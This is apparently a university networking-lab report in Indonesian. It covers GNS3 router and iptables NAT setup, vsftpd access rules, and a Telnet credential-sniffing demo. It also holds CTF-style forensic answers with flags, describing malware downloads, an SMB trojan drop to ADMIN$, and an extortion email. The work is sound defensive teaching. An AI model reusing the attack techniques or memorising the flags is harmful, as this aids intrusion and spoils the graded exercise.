# Jarkom-Modul-1-2026-K-25

## Anggota
| Nama | NRP | 
|---|---|
| Muhammad Yusuf | 5027251067 |
| Azhari Rahma Putri | 50272510  |

## Laporan
1. Untuk mempersiapkan pembangunan The Wired, Lain yang berperan sebagai Router membuat tiga Switch/Gateway: Switch 1 menuju dua Entitas yaitu Alice dan Mika, Switch 2 menuju Chisa, sedangkan Switch 3 menuju Knights dan Eiri. Kelima Entitas tersebut dikonfigurasi sebagai Client di GNS3. [GUNAKAN PREFIX IP MASING-MASING KELOMPOK]


2. Karena menurut Lain pada saat itu The Wired masih terisolasi dari dunia luar, konfigurasikan router Lain agar dapat tersambung langsung ke jaringan internet publik melalui NAT/DHCP pada interface eth0.


3. Setelah router Lain terhubung ke internet, pastikan seluruh Entitas (Client) di bawah Switch 1, Switch 2, dan Switch 3 dapat saling terhubung dan berkomunikasi satu sama lain melalui konfigurasi routing.


4. Lain ingin agar setiap Entitas (Client) memiliki kemandirian di The Wired. Konfigurasikan firewall/iptables (NAT Masquerade) dan DNS resolver agar setiap Client dapat terhubung ke internet secara mandiri (dapat melakukan ping ke 8.8.8.8 dan membuka domain web google.com).
## Penjelasan Script Router iptables

Script ini berfungsi untuk mengonfigurasi Linux agar bertindak sebagai router (NAT/Internet Sharing), di mana interface `eth0` adalah jalur internet utama, dan `eth1`, `eth2`, serta `eth3` adalah jaringan lokal (LAN).

### Rincian Cara Kerja:

a. `iptables -t nat -F`
   - **Membersihkan (Flush) Tabel NAT**: Menghapus seluruh aturan NAT yang sudah ada sebelumnya pada tabel `nat` agar konfigurasi dimulai dari kondisi bersih (kosong).

b. `iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE`
   - **Mengaktifkan Masquerading (NAT)**: Mengubah alamat IP sumber dari paket data lokal yang keluar melalui `eth0` (internet) menjadi alamat IP milik `eth0`. Ini memungkinkan perangkat di jaringan lokal (LAN) bisa mengakses internet menggunakan satu IP publik/lokal dari `eth0`.

c. `for i in 1 2 3; do ... done`
   - **Looping untuk Interface Lokal**: Perulangan (loop) untuk menerapkan aturan keamanan firewall secara otomatis pada interface `eth1`, `eth2`, dan `eth3`.

d. `iptables -A FORWARD -i eth$i -o eth0 -j ACCEPT`
   - **Meneruskan Paket Keluar**: Mengizinkan (ACCEPT) lalu lintas data yang berasal dari interface lokal (`eth1`, `eth2`, `eth3`) untuk diteruskan keluar menuju internet (`eth0`).

e. `iptables -A FORWARD -i eth0 -o eth$i -m state --state RELATED,ESTABLISHED -j ACCEPT`
   - **Mengizinkan Paket Masuk Kembali**: Mengizinkan paket balasan dari internet untuk masuk kembali ke jaringan lokal, khusus untuk koneksi yang statusnya sudah terhubung sebelumnya (`ESTABLISHED`) atau terkait (`RELATED`).

5. Eiri tetap berupaya menanamkan kekacauan ke dalam jaringan. Untuk mengantisipasi restart tiba-tiba, pastikan seluruh konfigurasi jaringan tidak hilang saat semua node di-restart. Buat script verifikasi di /root/cek_status.sh pada router Lain yang menampilkan ringkasan interface (ip -br a) dan status tabel NAT (iptables -t nat -L -v -n) setelah reboot.


6. Mika mencurigai adanya anomali traffic pada jaringannya. Jalankan genrator traffic `traffic_protocol7.sh` pada node Mika, lalu lakukan Packet Sniffing menggunakan Wireshark pada interface node Mika. Terapkan display filter khusus menyaring paket berprotokol DNS atau ICMP.

Berikut adalah hasil filter paket DNS dan ICMP



7. Chisa memutuskan mendirikan FTP Server pada node miliknya dengan shared folder di /var/wired/data. Terapkan kebijakan akses: user alice (hak akses read & write), user mika (dibatasi read-only), dan user eiri (dibatasi tanpa izin akses / blacklist). Buktikan konfigurasi dengan membuat file signal_alice.txt dari user alice, dan buktikan penolakan akses saat user eiri mencoba login.

Pada soal ini, node Chisa dikonfigurasi sebagai FTP Server yang menyediakan layanan berbagi file kepada node lain dalam jaringan. Server FTP menggunakan direktori `/var/wired/data` sebagai share d folder utama. Selain itu, diterapkan kebijakan akses yang berbeda untuk setiap pengguna, yaitu:

- Alice diberikan hak akses membaca dan menulis (read & write).
- Mika diberikan hak akses membaca saja (read only).
- Eiri diblokir sehingga tidak dapat mengakses layanan FTP (blacklist).

Instalasi FTP Server

Langkah pertama adalah menginstal layanan FTP Server menggunakan VSFTPD (Very Secure FTP Daemon) pada node Chisa.
```bash
apk add vsftpd
```
Buat direktori
```bash
mkdir -p /var/wired/data
```
Direktori ini nantinya akan menjadi lokasi utama penyimpanan seluruh file yang diakses melalui FTP.

Dibuat tiga akun pengguna sesuai ketentuan soal:
```bash
adduser alice
adduser mika
adduser eiri
```
Masing-masing pengguna kemudian diberikan password yang digunakan saat autentikasi FTP.

File konfigurasi utama VSFTPD berada pada:
```bash
/etc/vsftpd/vsftpd.conf
```
Konfigurasi yang digunakan:
```bash
listen=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES

chroot_local_user=YES
allow_writeable_chroot=YES

local_root=/var/wired/data

user_config_dir=/etc/vsftpd/user_conf

userlist_enable=YES
userlist_file=/etc/vsftpd/user_list
userlist_deny=YES
```
Konfigurasi Hak Akses Alice

Alice diberikan hak akses penuh terhadap direktori FTP.
```bash
chown alice:alice /var/wired/data
chmod 755 /var/wired/data
```
Konfigurasi Hak Akses Mika

Agar Mika hanya memiliki hak akses membaca, dibuat konfigurasi khusus:
```bash
mkdir -p /etc/vsftpd/user_conf
```
Kemudian:
```bash
echo "write_enable=NO" > /etc/vsftpd/user_conf/mika
```
Konfigurasi tersebut menonaktifkan kemampuan upload bagi pengguna Mika meskipun secara global FTP mengizinkan operasi tulis.

Konfigurasi Blacklist Eiri

Akun Eiri dimasukkan ke daftar pengguna yang ditolak.
```bash
echo "eiri" > /etc/vsftpd/user_list
```
Karena `userlist_deny=YES`

maka setiap pengguna yang terdapat dalam file tersebut tidak dapat login ke FTP Server.
Setelah konfigurasi selesai, VSFTPD dijalankan dengan command berikut
```bash
vsftpd /etc/vsftpd/vsftpd.conf &
```

Pengujian User Alice. Login dilakukan menggunakan akun Alice.
```bash
lftp -u alice 192.168.2.2
```
Hasilnya adalah login berhasil, dapat melihat isi direktori, dan dapat mengunggah file ke server.

Pengujian User Mika. Login dilakukan menggunakan akun Mika.
```bash
lftp -u mika 192.168.2.2
```
Hasilnya adalah login berhasil, dapat melihat isi direktori, dan tidak dapat mengunggah file
```bash
553 Could not create file
```
Pesan tersebut menunjukkan bahwa operasi penulisan ditolak oleh server.

Pengujian User Eiri. ogin dilakukan menggunakan akun Eiri.
```bash
lftp -u eiri 192.168.2.2
```
Hasilnya
```bash
530 Login incorrect
```
Login ditolak karena akun telah dimasukkan ke daftar blacklist.

8. Kelompok Knights perlu  mengirimkan dokumen laporan intelijen ke FTP Server Chisa. Lakukan koneksi FTP client dari node Knights ke FTP Server Chisa menggunakan akun alice. Upload file `knights_report.txt` Analisis sesi Wireshark dan sebutkan perintah FTP untuk upload (STOR), kode status sukses server (226), dan port data TCP yang dinegoisasikan pada mode PASV

Menghubungkan Knights ke FTP Server Chisa

Dari node Knights dilakukan koneksi ke FTP Server Chisa menggunakan akun Alice.
```bash
lftp -u alice 192.168.2.2
```

File kemudian diunggah ke FTP Server menggunakan perintah:
```bash
put knights_report.txt
```

Selama proses upload berlangsung, Wireshark dijalankan pada interface jaringan yang digunakan.

Filter yang digunakan:
```bah
ftp
```

untuk melihat komunikasi FTP.

Node Knights berhasil melakukan koneksi ke FTP Server menggunakan akun Alice dan berhasil mengunggah dokumen intelijen ke server Chisa.

Analisis Wireshark


Perintah FTP untuk Upload

Pada hasil capture ditemukan perintah:
```bash
STOR knights_report.txt
```
Perintah STOR (Store) digunakan oleh client FTP untuk mengirimkan file ke server.

Setelah file berhasil diterima, server mengirimkan respon:
```bash
226 Transfer complete
```

Kode status 226 menunjukkan bahwa proses transfer file telah selesai dan berhasil diproses oleh server.

Sebelum transfer file dilakukan, client mengirimkan perintah:
```bash
PASV
```
Server kemudian memberikan respon:
```bash
227 Entering Passive Mode (192,168,2,2,117,109)
```
maka:

117 × 256 + 109 = 30061

data FTP berlangsung pada port TCP 30061.

9. Mika mengakses dokumen Protokol Tujuh di `protokol7_manifesto.txt` dari FTP Server Chisa. Dari node Mika, unduh file tersebut menggunakan akun mika. Setelah itu, buktikan pembatasan read-only dengan mencoba mengunggah file baru dari akun mika, dan tunjukkan pesan error respon server (error 550 Permission denied) saat mika mencoba melakukan upload.

Mika mengakses dokumen `protokol7_manifesto.txt` dari server chisa, sebelum itu mika diharuskan login FTP terlebih dahulu lalu selanjutnya mika menggunakan command berikut untuk dapatkan file dari FTP server chisa 
```bash
get protokol7_manifesto.txt
```

Menguji Pembatasan Read-Only

Dibuat sebuah file percobaan pada node Mika.
```bash
echo "uji upload" > test.txt
```
Kemudian dicoba mengunggah file tersebut ke FTP Server.
```bash
put test.txt
```

Hasil Pengujian
- Mika berhasil login ke FTP Server.
- Mika berhasil melihat isi direktori FTP.
- Mika berhasil mengunduh file dari server.
Saat mencoba mengunggah file baru, server menolak permintaan upload.

respon dari server:
```bash
553 Could not create file
```
pesan tersebut menunjukkan bahwa server menolak operasi penulisan.

Lampiran
Mika berhasil akses file


Mika gagal upload



10. Knights melancarkan uji ketahanan koneksi ke server Chisa untuk menguji latensi jaringan The Wired. Kirimkan paket ping dari node Knights ke node Chisa dengan payload khusus 128 bytes dan interval 0.3 detik sebanyak 77 paket (ping -c 77 -s 128 -i 0.3 <IP_Chisa>). Buka Wireshark, catat nilai ICMP Type dan Code untuk Echo Request vs Echo Reply, serta analisis packet loss dan RTT (min/avg/max).

Percobaan ini bertujuan untuk mengukur kualitas koneksi jaringan antara node Knights dan node Chisa menggunakan protokol ICMP serta menganalisis paket Echo Request dan Echo Reply yang ditangkap menggunakan Wireshark.

Menjalankan Pengujian Ping

Dari node Knights dijalankan perintah berikut:
```bash
ping -c 77 -s 128 -i 0.3 192.168.2.2
```

Pada saat proses ping berlangsung, Wireshark dijalankan untuk menangkap lalu lintas jaringan.

Filter yang digunakan:
```bash
icmp
```
Hasil Pengujian

Pada hasil ping diperoleh informasi:

77 packets transmitted
77 packets received
0% packet loss

Selain itu diperoleh nilai RTT:

rtt min/avg/max = 0428/0.712/1.721/0.208 ms

Analisis Wireshark

Ditemukan dua jenis paket ICMP:

Echo Request


Dikirim oleh node Knights menuju node Chisa.

Nilai:
Type = 8
Code = 0

Echo Reply


Dikirim oleh node Chisa sebagai balasan.

Nilai:

Type = 0
Code = 0

ICMP Echo Request digunakan untuk menguji keterhubungan antar host dalam jaringan. Setiap Echo Request yang diterima dengan baik akan dibalas oleh Echo Reply. Dari hasil pengujian tidak ditemukan packet loss sehingga koneksi antara node Knights dan Chisa dapat dikatakan stabil. Nilai RTT yang rendah menunjukkan bahwa waktu tempuh paket dalam jaringan relatif kecil.

11. Buktikan kelemahan protokol Telnet dengan membuat akun phantom_user dan password wired_ghost pada layanan telnetd di node Chisa. Lakukan login Telnet dari node Eiri ke node Chisa dan tangkap sesi menggunakan Wireshark. Tunjukkan kredensial plain text melalui fitur Follow TCP Stream, serta jelaskan mengapa setiap karakter terkirim dalam paket TCP terpisah.

Pada node Chisa dibuat akun telnet baru.
```bash
adduser phantom_user
```
dengan password
```bash
wired_ghost
```

Pada node Chisa dijalankan layanan Telnet.
```bash
telnetd
```
Verifikasi apakah layanan berhasil dijalankan
```bash
netstat -tln | grep 23
```
Login dari Node Eiri, dari node Eiri dilakukan koneksi:
```bash
telnet 192.168.2.2
```
Kemudian login menggunakan
Username : phantom_user
Password : wired_ghost



Capture dengan Wireshark

Kemudian dipilih salah satu paket Telnet dan dilakukan Follow TCP Stream

Hasil Pengujian


Pada hasil Follow TCP Stream terlihat:

login: phantom_user
Password: wired_ghost

Kredensial dapat dibaca secara langsung tanpa proses dekripsi.

Telnet tidak menyediakan mekanisme enkripsi sehingga seluruh data dikirim dalam bentuk plaintext. Akibatnya username dan password dapat dengan mudah diperoleh oleh pihak yang melakukan penyadapan jaringan.

Selain itu terlihat bahwa setiap karakter yang diketik pengguna dikirim secara terpisah melalui paket TCP. Hal ini terjadi karena Telnet dirancang sebagai protokol terminal interaktif yang mengirimkan input karakter secara langsung ke server untuk menghasilkan respons secara real-time.

12. Alice mencurigai Knights menjalankan beberapa layanan rahasia di node-nya. Lakukan pemindaian port dari node Alice ke node Knights menggunakan Netcat (nc) untuk memeriksa port 22 (SSH) dan 80 (HTTP) dalam keadaan terbuka, serta port rahasia 7777 dalam keadaan tertutup. Analisis di Wireshark perbedaan TCP Flag yang dikembalikan antara port terbuka (SYN-ACK) dengan port tertutup (RST-ACK).

Pada node Knights dijalankan port 22 dan 80:
```bash
httpd -f -p 80 -h /var/www
```
dan
```bash
/usr/sbin/sshd
```

Menjalankan port 80


Menjalankan port 22


12.2 Melakukan Port Scanning

Dari node Alice dilakukan pengecekan:
```bash
nc -vz 192.168.3.2 22
nc -vz 192.168.3.2 80
nc -vz 192.168.3.2 7777
```

Hasil Pengujian

Hasil yang diperoleh:

Connection to 192.168.3.2 22 port 22 succeeded!
Connection to 192.168.3.2 80 port 80 succeeded!
nc: connect to 192.168.3.2 port 7777 failed: Connection refused

Analisis Wireshark

Port Terbuka (22 dan 80)

Urutan paket:
```bash
SYN
SYN-ACK
ACK
```
TCP Flag yang terlihat:
```bash
SYN, ACK
```
Menunjukkan port dalam keadaan terbuka.

Port Tertutup (7777)

Urutan paket:
```bash
SYN
RST, ACK
```
TCP Flag yang terlihat:
```bash
RST, ACK
```
Menunjukkan bahwa tidak ada service yang berjalan pada port tersebut.

Port scanning menggunakan Netcat menunjukkan bahwa port 22 dan 80 aktif melayani koneksi, sedangkan port 7777 tidak memiliki service yang berjalan. Perbedaan flag TCP yang dikembalikan server dapat digunakan untuk menentukan status suatu port tanpa harus melakukan login ke layanan tersebut.

13. Lain memerintahkan agar administrasi jarak jauh menggunakan SSH secara aman tanpa password. Install OpenSSH server pada node Knights, buat pasangan kunci SSH (ssh-keygen) pada node Mika untuk user mika_admin, dan konfigurasikan public key authentication (PasswordAuthentication no). Lakukan koneksi SSH dari node Mika ke node Knights, tangkap sesi menggunakan Wireshark, identifikasi paket Protocol Version Exchange dan Key Exchange, serta jelaskan mengapa kredensial tidak terlihat dalam bentuk teks terbuka seperti pada Telnet.

Percobaan ini bertujuan untuk mengimplementasikan autentikasi SSH berbasis public key sehingga administrasi jarak jauh dapat dilakukan tanpa penggunaan password.

Instalasi SSH Server pada Knights
```bash
apk add openssh
```
Membuat akun administrator:
```bash
adduser mika_admin
```


Konfigurasi SSH Server
```bash
/etc/ssh/sshd_config
```
Diubah menjadi:
```bash
PubkeyAuthentication yes
PasswordAuthentication no
PermitRootLogin no
```



Membuat Key Pair pada Mika
```bash
ssh-keygen -t ed25519
```



Public key:
```bash
cat ~/.ssh/id_ed25519.pub
```
Menambahkan Public Key ke Knights
```bash
mkdir -p /home/mika_admin/.ssh
```
Isi file `authorized_keys`
dengan public key yang telah dibuat.

Mengatur permission:
```bash
chown -R mika_admin:mika_admin /home/mika_admin/.ssh
chmod 700 /home/mika_admin/.ssh
chmod 600 /home/mika_admin/.ssh/authorized_keys
```



Pengujian Login

Dari node Mika:
```bash
ssh mika_admin@192.168.3.2
```
Login berhasil tanpa memasukkan password.



Analisis Wireshark

Filter:
```bash
ssh
```
Ditemukan paket:

Protocol Version Exchange


Berisi pertukaran versi SSH antara client dan server.

Key Exchange Init


Berisi proses negosiasi algoritma kriptografi yang akan digunakan selama sesi SSH.

Berbeda dengan Telnet, SSH mengenkripsi seluruh komunikasi setelah proses key exchange selesai. Oleh karena itu kredensial dan data yang dikirim tidak dapat dibaca secara langsung melalui Wireshark. Penggunaan public key authentication juga meningkatkan keamanan karena tidak bergantung pada password yang dapat dicuri melalui penyadapan jaringan.


14. Setelah gagal mengakses FTP, Eiri melancarkan serangan brute-force terhadap form login web Alice. Analisis file capture wired_bruteforce.pcapng untuk mengidentifikasi alamat IP penyerang, target IP beserta port yang diserang, password user lain_admin yang berhasil ditembus, serta web server software dan versi yang dilaporkan pada response header. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3401 

15. Eiri menyusup ke ruang server dan memasang perangkat keyboard USB berbahaya pada node Alice. Buka file capture wired_usb_hid.pcap, identifikasi Vendor ID dan Product ID perangkat USB dari deskriptor USB, alamat nomor device USB, serta pesan rahasia yang berhasil dicuri dari keystroke. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3402

16. Eiri meletakkan file malware di server. Dari file capture wired_ftp_theft.pcap, lakukan analisis lalu lintas FTP untuk mengidentifikasi alamat IP server FTP penyerang, banner software FTP yang digunakan, kredensial login penyerang, serta ukuran (size in bytes) dari file malware knights_payload.exe yang diunduh. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3403 

17. Alice membuat halaman web di node-nya. Eiri memanfaatkan celah untuk mengunduh payload berbahaya ke sistem Alice. Analisis file capture wired_http_c2.pcap untuk mengidentifikasi nama domain (Host) tempat malware diunduh, alamat IP server penyerang, nama file executable malware yang diunduh, serta kode status HTTP yang dikembalikan. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3404

Pada soal ini akan mengidentifikasi domain tempat malware diunduh, IP server penyerang, nama file executable malware, dan status HTTP yang dikembalikan server.

Hasil Analisis

Domain (Host) Malware, Dari HTTP Request ditemukan:
```bash
GET /navi_agent.exe HTTP/1.1
Host: wired-update.net
```
Host malware: `wired-update.net`

Alamat IP Server Penyerang, Hasil DNS menunjukkan:
```bash
wired-update.net -> 203.0.113.42
```
Kemudian koneksi HTTP dilakukan ke:
```bash
10.7.1.50 -> 203.0.113.42:80
```
IP server penyerang: `203.0.113.42`

Nama File Malware, Pada request HTTP:
```bash
GET /navi_agent.exe HTTP/1.1
```
Dan pada response:
```bash
Content-Disposition: attachment;
filename="navi_agent.exe"
```
Nama malware: `navi_agent.exe`



Status HTTP, Response server:
```bash
HTTP/1.1 200 OK
```
Status HTTP: `200 OK`


| Parameter | Hasil |
|------------|---------|
| Domain (Host) | `wired-update.net` |
| IP Server Penyerang | `203.0.113.42` |
| Nama File Malware | `navi_agent.exe` |
| HTTP Method | `GET` |
| HTTP Status Code | `200 OK` |

Flag: `KOMJAR26{Navi_C2_D0wnl04d_Ob8yvOfKXKjurQbeUvXKMViI2}`

Node Alice mengakses domain wired-update.net yang mengarah ke IP 203.0.113.42. Dari server tersebut diunduh file executable bernama navi_agent.exe. Server merespons dengan status HTTP 200 OK, menandakan file berhasil dikirim ke korban.

18. Eiri mengubah taktik penyerangan dengan menanamkan file malware menggunakan protokol file sharing SMB. Analisis file capture wired_smb_transfer.pcapng untuk mengidentifikasi nama protokol jaringan yang dieksploitasi, IP pengirim dan penerima, folder tujuan penyimpanan malware pada sistem korban, serta nama file executable malware yang ditransfer. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3405

Soal ini akan mengidentifikasi protokol yang digunakan, IP pengirim dan penerima, folder tujuan penyimpanan malware, serta nama file executable yang ditransfer.

Hasil Analisis
Protokol yang Dieksploitasi

Lalu lintas menggunakan:
```bash
TCP Port 445
SMB2 (Server Message Block)
```

Protokol: SMB (Server Message Block)

IP Pengirim dan Penerima, Koneksi SMB:
```bash
10.7.3.100 -> 10.7.1.50
```
IP Pengirim (Attacker): `10.7.3.100`

IP Penerima (Victim): `10.7.1.50`



Folder Tujuan Penyimpanan Malware, Dari SMB Create Request ditemukan path:
```bash
\\10.7.1.50\ADMIN$
```
Kemudian file ditulis ke:
```bash
System32\
```
Sehingga lokasi penyimpanan malware adalah:
```bash
C:\Windows\System32\
```
String UTF-16 pada paket SMB menunjukkan:
```bash
System32\wired_trojan_payload.exe
```
Nama malware: `wired_trojan_payload.exe`



| Parameter | Hasil |
|------------|---------|
| Protokol yang Dieksploitasi | `SMB2` |
| Port yang Digunakan | `TCP 445` |
| IP Pengirim | `10.7.3.100` |
| IP Penerima | `10.7.1.50` |
| Nama File Malware | `wired_trojan_payload.exe` |
| Lokasi Penyimpanan | `System32\wired_trojan_payload.exe` |

Flag: `KOMJAR26{SMB_Tr4nsf3r_lxQNSpIXMxxHtoiDjajBQea1X}`

Penyerang dengan IP 10.7.3.100 menggunakan protokol SMB melalui port 445 untuk menyalin malware ke host korban 10.7.1.50. Malware disimpan pada share administratif ADMIN$ di direktori System32 dengan nama file wired_trojan_payload.exe.

19. Eiri meneror jaringan dengan mengirimkan email pemerasan melalui protokol SMTP tanpa enkripsi. Analisis file capture wired_smtp_threat.pcap pada stream TCP terkait, identifikasi alamat email korban yang ditargetkan, password korban yang diklaim bocor oleh penyerang, jenis malware yang diinfeksikan, batas waktu (dalam hari) yang diberikan, serta MailClientID yang tercantum pada pesan. Validasi temuan kalian pada socket server:
(link file) nc [IP_Group] 3406

Soal ini akan mengidentifikasi alamat email korban, password yang diklaim bocor, jenis malware, batas waktu yang diberikan penyerang, serta MailClientID.

Hasil Analisis


Pada stream SMTP ditemukan email pemerasan berikut:
```bash
From: attacker@darkwired.net
To: victim@protocol7.co.jp
Subject: URGENT: Your Wired account has been compromised
```

Email Korban, Field:
```bash
To: victim@protocol7.co.jp
```
Email korban: `victim@protocol7.co.jp`

Password yang Diklaim Bocor

Isi pesan:
```bash
I know that:
pr0tocol_7_user - is your password!
```
Password yang diklaim bocor: `pr0tocol_7_user`

Jenis Malware

Isi email menyatakan:
```bash
Your computer was infected with my private ransomware.
```
Jenis malware: `Ransomware`

Batas Waktu Pembayaran
```bash
I give you 72 hours (3 days)
```
Batas waktu: `3 hari (72 jam)`

MailClientID
```bash
MailClientID: 7719980706
```
MailClientID: `7719980706`

| Parameter | Hasil |
|------------|---------|
| Email Korban | `victim@protocol7.co.jp` |
| Password yang Diklaim Bocor | `pr0tocol_7_user` |
| Jenis Malware | `Private Ransomware` |
| Batas Waktu Pembayaran | `72 hours (3 days)` |
| MailClientID | `7719980706` |

Flag: `KOMJAR26{SMTP_Ext0rt10n_jXJG1VfM2v2ZQfXdXguO9TO3W}`

Penyerang menggunakan SMTP tanpa enkripsi untuk mengirim email pemerasan kepada victim@protocol7.co.jp. Dalam pesan tersebut penyerang mengklaim mengetahui password korban yaitu pr0tocol_7_user, menyatakan telah menginfeksi sistem dengan ransomware, dan memberikan tenggat waktu 72 jam (3 hari) untuk melakukan pembayaran. Email tersebut memiliki MailClientID 7719980706.

20. Untuk rencana pamungkasnya, Eiri menyembunyikan komunikasi malware di balik saluran terenkripsi TLS. Namun Alice telah menyediakan file keylog untuk mendekripsi lalu lintas data tersebut. Analisis file capture wired_tls_decrypt.pcapng bersama keyslogfile.txt untuk mengidentifikasi versi protokol TLS yang dinegosiasikan, nama domain (SNI) yang diakses, alamat IP server HTTPS penyerang, User-Agent yang digunakan, serta HTTP request method dan path yang tersembunyi di dalam sesi dekripsi. Validasi temuan kalian pada socket server: (link file) nc [IP_Group] 3407

Soal ini akan menganalisis komunikasi malware yang disembunyikan menggunakan protokol TLS. Karena komunikasi TLS terenkripsi, isi HTTP tidak dapat langsung dibaca melalui Wireshark.
Untuk membantu proses analisis, digunakan file keyslogfile.txt yang berisi informasi CLIENT_RANDOM. Keylog tersebut digunakan Wireshark untuk mendekripsi sesi TLS sehingga informasi di dalam komunikasi dapat dianalisis.  
`keyslogfile.txt`
Informasi yang dicari meliputi versi TLS, nama domain (SNI), IP server HTTPS, User-Agent, HTTP method, dan path.

Memasukkan Keylog ke Wireshark, Langkah-langkah memasukkan keylog:
- Buka Wireshark.
- Pilih Edit → Preferences.
- Pilih Protocols → TLS.
- Cari bagian (Pre)-Master-Secret log filename.
- Klik Browse, kemudian pilih file `keyslogfile.txt`
- Klik OK.


Jika keylog sesuai dengan sesi TLS pada capture, Wireshark dapat menampilkan isi komunikasi HTTP yang sebelumnya terenkripsi.

Analisis Traffic pada Wireshark


Dari hasil analisis, komunikasi menggunakan TLS 1.2

Pada bagian Client Hello ditemukan informasi Server Name Indication (SNI):
```bash
example.com
```
Kemudian dari komunikasi TCP diketahui bahwa client 10.9.0.2 melakukan koneksi ke server HTTPS:
```bash
93.184.216.34:443
```
Setelah keylog berhasil digunakan untuk mendekripsi traffic, isi HTTP request dapat dilihat:
```bash
HEAD / HTTP/1.1
Host: example.com
User-Agent: curl/7.62.0
Accept: */*
```

| Parameter | Hasil |
|------------|---------|
| Versi TLS | `TLSv1.2` |
| Domain (SNI) | `example.com` |
| IP Client | `10.9.0.2` |
| IP Server HTTPS | `93.184.216.34` |
| User-Agent | `curl/7.62.0` |
| HTTP Method | `HEAD` |
| Path yang Diakses | `/` |

Flag: `KOMJAR26{TLS_D3crypt_wYM57ckBtTVyAaaH0r8HwPxd5}`

Berdasarkan analisis, komunikasi yang terdapat pada file wired_tls_decrypt.pcapng menggunakan TLS 1.2 sehingga isi komunikasinya terenkripsi. Dengan memasukkan keyslogfile.txt, Wireshark dapat mendekripsi sesi TLS dan menampilkan kembali informasi HTTP di dalamnya.
Hasil analisis menunjukkan bahwa client mengakses example.com pada IP 93.184.216.34 melalui port 443 menggunakan curl/7.62.0. HTTP request yang ditemukan menggunakan method HEAD dengan path /, dan server memberikan respons HTTP 200 OK.


